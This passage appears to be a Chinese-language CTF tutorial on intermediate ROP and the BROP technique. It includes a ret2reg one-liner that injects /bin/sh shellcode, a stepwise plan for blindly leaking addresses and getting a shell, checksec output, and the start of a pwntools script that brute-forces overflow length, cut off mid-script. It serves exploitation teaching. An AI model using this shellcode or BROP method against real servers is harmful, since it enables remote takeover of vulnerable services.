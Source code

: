 ```
./ret2reg $(perl -e 'printf "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80" . "A"x499 ."\x73\x83\x04\x08"')
```

# 中级ROP

## BROP

### 原理

BROP 是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

攻击条件：

1. 源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2. 服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有 ASLR 保护，但是其只是在程序最初启动的时候有效果）。目前 nginx, MySQL, Apache, OpenSSH 等服务器应用都是符合这种特性的。

见https://wiki.x10sec.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#_13

### 思路

1. **判断栈溢出长度**，如有必要可以通过栈溢出来泄露 canaries、rbp 和返回地址
2. 寻找能够返回到 main 函数的 gadgets（通常称为 **stop_gadget**）
3. 寻找 **brop gadgets**（例如 __libc_csu_init 中的 gadgets），定位 pop rdi ; ret 的地址
4. 寻找 **puts 或 write 函数的 plt**，用于 leak 其它地址的值
5. **dump plt 表**，用于 leak 所需函数的 got 地址
6. 通过 leak 到的 got 地址，**找到对应 libc 版本**，通过 libc 执行系统命令进行 **getshell**

### 例子

1、checksec:

```
dililearngent@dililearngent-virtual-machine:~/Desktop/brop$ checksec brop
[*] '/home/dililearngent/Desktop/brop/brop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

64位，只开启了NX堆栈保护，没有开启canary

2、判断栈溢出长度：

可以使用之前的方法，这里使用下面脚本：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *


def GetBufferLength():
    i = 1
    while 1:
        try:
            p = process('./brop')
            p.recvuntil('WelCome my friend,Do you know password?\n')
            p.send('A' * i)
            out = p.recv()
            p.close()
            # 没有返回到main函数
            if not out.startswith('No password'):#startswith用来判断返回的值以什么开头,判断回传数据
```